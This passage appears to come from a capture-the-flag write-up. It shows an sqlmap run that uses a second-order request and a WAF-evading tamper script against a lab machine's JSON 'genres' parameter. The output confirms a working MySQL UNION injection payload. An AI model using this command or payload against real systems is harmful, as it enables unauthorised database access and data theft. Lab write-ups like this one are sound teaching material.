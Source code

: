 

    oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5
    ...[snip]...
    [16:39:51] [INFO] parsing HTTP request from 'genres.request'
    [16:39:51] [INFO] parsing second-order HTTP request from 'feed.request'
    [16:39:51] [INFO] loading tamper module 'space2comment'
    JSON data found in POST body. Do you want to process it? [Y/n/q] Y
    Cookie parameter 'XSRF-TOKEN' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
    Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
    [16:39:51] [INFO] testing connection to the target URL
    [16:39:51] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
    [16:39:51] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON genres' might not be injectable
    [16:39:52] [INFO] testing for SQL injection on (custom) POST parameter 'JSON genres'
    it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
    [16:39:52] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
    [16:40:00] [INFO] testing 'Generic UNION query (random number) - 1 to 10 columns'
    [16:40:08] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
    [16:40:09] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [16:40:10] [INFO] target URL appears to have 5 columns in query
    [16:40:10] [INFO] (custom) POST parameter 'JSON genres' is 'MySQL UNION query (NULL) - 1 to 10 columns' injectable
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? [Y/n] Y
    (custom) POST parameter 'JSON genres' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 85 HTTP(s) requests:
    ---
    Parameter: JSON genres ((custom) POST)
        Type: UNION query
        Title: MySQL UNION query (NULL) - 5 columns
        Payload: {"genres":"food') UNION ALL SELECT NULL,NULL,CONCAT(0x71786a6271,0x494a62554f746d6d4c4e6a516167514a717443754e775069554a4c62424959456f535751634d7668,0x7171706271),NULL,NULL#"}
    ---
    [16:40:10] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
    [16:40:10] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Nginx 1.18.0
    back-end DBMS: MySQL Unknown (MariaDB fork)
    [16:40:11] [WARNING] HTTP error codes detected during run:
    500 (Internal Server Error) - 35 times
    [16:40:11] [INFO] fetched data logged to text files under '/home/oxdf/.local/share/sqlmap/output/10.10.11.220'
